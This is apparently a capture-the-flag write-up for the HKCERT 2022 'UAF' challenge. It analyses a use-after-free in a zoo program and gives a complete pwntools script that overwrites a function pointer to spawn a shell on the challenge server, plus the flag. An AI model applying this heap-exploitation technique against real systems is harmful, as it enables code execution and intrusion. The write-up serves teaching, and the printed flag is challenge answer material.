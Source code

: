 s# UAF
## Challenge details
![](assets/uaf_detail.png)

## Analysis
This program has a `get_shell()` function. The target of this challenge is to execute this function.
```c
void get_shell() {
    system("/bin/sh");
}
```

The `add_animal()` function will create 2 heap chunks and put in the list. 
```c
void add_animal() {
    int choice;
    int size;
    int idx;
    Animal* animal;

    if (zoo.numOfAnimal >= ZOO_SIZE) {
        print("[ERROR] The zoo is full.");
        return;
    }

    for (idx = 0; idx < ZOO_SIZE; idx++) {
        if (zoo.animals[idx] == NULL) {
            break;
        }
    }

    animal = (Animal*) malloc(sizeof(Animal));

    print("Type of animal?");
    print("1) Parrot");
    print("2) Panda");

    while (1) {
        printf("> ");
        scanf("%d", &choice);
        if (choice == 1) {
            animal->type = PARROT;
            break;
        } 
        if (choice == 2) {
            animal->type = PANDA;
            break;
        }
        printf("??\n");
    }

    animal->speak = speak;
    print("How long is the name? (max: 64 characters)");   
    while (1) {
        printf("> ");
        scanf("%d", &size);
        if (size >= 0 && size < MAX_NAME_SIZE) {
            animal->name = (char*) malloc(size);
            break;
        } 
        printf("??\n");
    }

    print("Name of animal?");
    printf("> ");
    read(0, animal->name, size);

    zoo.animals[idx] = animal;
    printf("> [DEBUG] Animal is added to zone %d\n", idx);
    zoo.numOfAnimal++;
}
```
The data structure is:
```c
struct Animal
{
    speakFunc speak;
    enum AnimalType type;
    char* name;
};
```
You can see that there is a function pointer `speak` which will be called after `report_name()` function (`speak(name)`). Our target is overwrite `speak` with the address of `get_shell`.
```c
void report_name() {
    <SNIP>
    zoo.animals[choice]->speak(zoo.animals[choice]->name);
}
```
Every time a new `Animal` is created, the pointer will will be inserted to `zoo[idx]` where `idx` is the first NULL pointer. Hence, use-after-free (UAF) can be applied. If we can overwrite the address of `speak` and call `report_name()`, `get_shell()` will be called.
```c
void remove_animal() {
    int choice;

    <SNIP>

    free(zoo.animals[choice]->name);
    free(zoo.animals[choice]);

    printf("> [DEBUG] Animal is removed from zone %d\n", choice);
    
    zoo.numOfAnimal--;
}
```
We want to make the `malloc()` allocate location to `name` that previous allocated to animal. Look at how GDB is executed.

Since the `add_animal()` request 2 heap chunks at once, the 2 chunks are allocated and freed in pairs.
![](assets/uaf_gdb1.png)

As we can specify the size of the name, we can allocated name with size 0x40 (2 chunks `A`: 0x20,  `B`: 0x40), then create an animal with name chunk size 0x20 (2 chunks `C`: 0x20, `D`: 0x20). Thus, if these 2 chunks are freed and add a new animal with size 0x20, the chunks `A` and `C` will be allocated. If we the name to this animal, the address of `speak()` of the 2nd animal will be overwritten.
![](assets/uaf_gdb2.png)

## Solution
```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'

e = ELF('./zoo')
# r = gdb.debug('./zoo', 'b* remove_animal\nc')
r = remote('chal.hkcert22.pwnable.hk', 28235)
def create(size, data):
    r.sendlineafter(b'Exit\n> ', b'1')
    r.sendlineafter(b'2) Panda', b'1')
    r.sendlineafter(b'name? ', str(size).encode())
    r.sendafter(b'animal?', data)

def delete(id):
    r.sendlineafter(b'Exit\n> ', b'2')
    r.sendlineafter(b'(0-9)', str(id).encode())

def report(id):
    r.sendlineafter(b'Exit\n> ', b'3')
    r.sendlineafter(b'(0-9)', str(id).encode())
# 0
create(0x30, b'AAAAAAAAA')
# 1
create(0x18, b'AAAAAAAAA')
# 2
create(0x18, b'AAAAAAAAA')
# 3
create(0x18, b'AAAAAAAAA')
# 4
create(0x18, b'AAAAAAAAA')
# 5
create(0x18, b'AAAAAAAAA')
# 6
create(0x18, b'AAAAAAAAA')
# 7
create(0x18, b'AAAAAAAAA')


delete(1)
delete(0)

# 8
create(0x18, p64(e.symbols['get_shell']))
report(1)
r.interactive()
```

## Flag
`
hkcert22{w3L1C0me_70_World_0f_pwN_h34P_z0o}
`